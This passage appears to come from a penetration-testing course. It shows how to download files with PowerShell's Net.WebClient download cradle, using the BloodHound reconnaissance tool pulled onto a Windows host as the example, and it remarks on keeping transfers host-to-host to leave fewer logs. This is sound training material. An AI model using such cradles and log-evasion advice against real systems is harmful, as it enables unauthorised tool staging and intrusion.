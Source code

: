 ### What If We Can't Use Invoke-WebRequest?

So what happens if we are restricted from using `Invoke-WebRequest` for some reason? Not to fear, Windows provides several different methods to interact with web clients. The first and more challenging interaction path is utilizing the [.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0) class. This handy class is a .Net call we can utilize as Windows uses and understands .Net. This class contains standard system.net methods for interacting with resources via a URI (web addresses like github.com/project/tool.ps1). Let's look at an example:

#### Net.WebClient Download

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")

PS C:\htb> ls

    Directory: C:\Users\MTanaka

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          11/10/2022 10:45 AM      108511752 Bloodhound.zip
-a---           6/14/2022  8:22 AM           4418 passwords.kdbx
-a---            9/9/2020  4:54 PM         696576 Start.exe
-a---           9/11/2021 12:58 PM              0 sticky.gpr
-a---          11/10/2022 10:44 AM      108511752 test.zip
```

So it worked. Let's break down what we did:

- First we have the Download cradle `(New-Object Net.WebClient).DownloadFile()`, which is how we tell it to execute our request.
- Next, we need to include the URI of the file we want to download as the first parameter in the (). For this example, that was `"https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip"`.
- Finally, we need to tell the command where we want the file written to with the second parameter `, "BloodHound.zip"`.

The command above would have downloaded the file to the current directory we are working from as `Bloodhound.zip`. Looking at our terminal, we can see that it executed successfully because the file `Bloodhound.zip` now exists in our `working directory`. If we wanted to place it somewhere else, we would have to specify the full path. From here, we can `extract` the tools and run them as we see fit. Keep in mind this is noisy because you will have web requests entering and leaving your network along with file reads and writes, so it `WILL` leave logs. If your transfers are done locally, only host to host, for example, you only leave logs on those hosts, which are a bit harder to sift through and leave less of a trace since we aren't writing ingress/egress logs at the customer boundary.